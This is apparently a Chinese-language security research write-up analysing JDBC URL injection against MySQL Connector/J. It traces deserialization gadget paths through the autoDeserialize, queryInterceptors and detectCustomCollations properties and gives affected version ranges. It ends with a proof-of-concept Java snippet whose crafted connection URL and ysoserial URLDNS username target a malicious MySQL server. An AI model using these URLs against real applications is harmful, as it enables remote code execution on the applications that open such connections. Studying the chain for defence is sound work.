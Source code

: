 - [JDBC Attack](#jdbc-attack)
  - [Mysql](#mysql)
    - [autoDeserialize](#autodeserialize)
    - [queryInterceptors](#queryinterceptors)
    - [ServerStatusDiffInterceptor](#serverstatusdiffinterceptor)
      - [ResultSetImpl#getObject](#resultsetimplgetobject)
    - [detectCustomCollations](#detectcustomcollations)
      - [总结](#总结)
    - [复现](#复现)
    - [参考](#参考)
  - [PostgreSQL](#postgresql)
# JDBC Attack
主要是当JDBC连接时的url可控时的攻击面  
条件: JDBC连接时的url可控.  
JDBC基础语法:
```
jdbc:mysql://[host][,failoverhost...]
    [:port]/[database]
    [?propertyName1][=propertyValue1]
    [&propertyName2][=propertyValue2]...
```
## Mysql
### autoDeserialize
[官方文档](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-blob-clob-processing.html#cj-conn-prop_autoDeserialize)  
该属性用于指示处理BLOB或者CLOB字段类型时驱动是否自动识别并反序列化BLOB字段的数据,默认为false.
![](1.png)
### queryInterceptors
[官方文档](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-statements.html#cj-conn-prop_queryInterceptors)  
语句拦截器,用于在两条语句执行中间对结果进行修改,接受以逗号分隔并实现了`com.mysql.cj.interceptors.QueryInterceptor`类的class列表,并且为链式结构,处理结果从左到右依次传递.
![](2.png)

而在JDBC连接过程中会自动执行SET CHARSET,set autocommit=1等语句来初始化一些环境参数,就会触发`queryInterceptors`中指定的类执行。

不同版本的参数名有一些差异
1. 6.x版本：queryInterceptors->statementInterceptors.
2. 5.1.11以上版本: queryInterceptors->statementInterceptors.
3. 5.1.10及以下的5.1.X版本,queryInterceptors->statementInterceptors,需要连接后执行查询语句后才会触发Interceptors.
### ServerStatusDiffInterceptor
`ServerStatusDiffInterceptor`类就是实现了`com.mysql.cj.interceptors.QueryInterceptor`的子类，其中的`preProcess`表示在下一条语句执行前要执行的方法,代码如下
![](3.png)
其中调用了`populateMapWithSessionStatusValues`,在其中最后调用了`ResultSetUtil.resultSetToMap(toPopulate, rs);`
而在`resultSetToMap`中则会触发`ResultSet.getObject`  
```java
    public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
        while(rs.next()) {
            mappedValues.put(rs.getObject(1), rs.getObject(2));
        }

    }
```
#### ResultSetImpl#getObject
在ResultSetImpl#getObject的实现中,会根据字段类型做不同处理,当处理到blob字段类型时则会对字段数据进行反序列化,造成反序列化攻击。
![](4.png)
![](5.png)
### detectCustomCollations
在`ConnectionImpl`中,会对`SHOW COLLATION`返回结果调用`Util.resultSetToMap`进行处理，而`resultSetToMap`则和`ServerStatusDiffInterceptor`相同,最后走到`ResultSetImpl#getObject`触发反序列化。
![](8.png)
前提是`this.getDetectCustomCollations()`要为true,且最小版本要大于5.0.0。  
而detectCustomCollations这个选项在5.1.29之前一直为true,但我们也可以在参数中直接指定该变量为true。  
![](13.png)  
而在5.1.18及以下版本并未使用getObject(),无法触发。
![](18.png)
根据[参考文章](https://www.anquanke.com/post/id/203086#h2-4)说是由于从5.1.41版本开始，不再使用getObject的方式获取SHOW COLLATION的结果，此方法失效,实测是5.1.39以后,不再直接调用`ResultSetImpl#getObject`,但是对`SHOW COLLATION`结果的第三列直接调用了results.getObject(),最后还是进入的ResultSetImpl#getObject中.
![](9.png)
其中字段类型为-4,-3,-2时会进入`getObjectDeserializingIfNeeded`方法,直接用[恶意mysql服务器](https://github.com/fnmsd/MySQL_Fake_Server)的设置即可满足此条件.    
![](10.png)
该方法和之前类似进行了反序列化操作,其中通过`this.connection.getAutoDeserialize()`来确定是否进行反序列化,在url中同之前一样设置`autoDeserialize=true`即可.
![](11.png)
![](12.png)  

直到5.1.49才真正没有调用getObject().
![](14.png)
但在6.0.2开始,版本中却又直接调用了`ResultSetUtil.resultSetToMap`，又回到了`ServerStatusDiffInterceptor`那条链中,同样可以触发反序列化,实测直到6.0.6版本都是这样。
![](15.png)
![](17.png)

而在8.x版本获取`SHOW COLLATION`时又不一样了,才终于无法利用该点触发了。
![](16.png)
#### 总结
detectCustomCollations触发版本:5.1.18< version <=6.0.6(5.1.49除外)

### 复现
[恶意mysql服务器](https://github.com/fnmsd/MySQL_Fake_Server)  

```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class JDBC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.cj.jdbc.Driver");

        Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","yso_URLDNS_http://xxx.cn/", "pass");
        //Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?detectCustomCollations=true&autoDeserialize=true","yso_URLDNS_http://xxx.cn/", "pass");
    }
}

```
判断返回数据前两个字节是否为序列化数据的特征-84,-19,满足条件则进行反序列化.
![](6.png)

![](7.png)
### 参考
https://www.anquanke.com/post/id/203086#h2-4
## PostgreSQL 

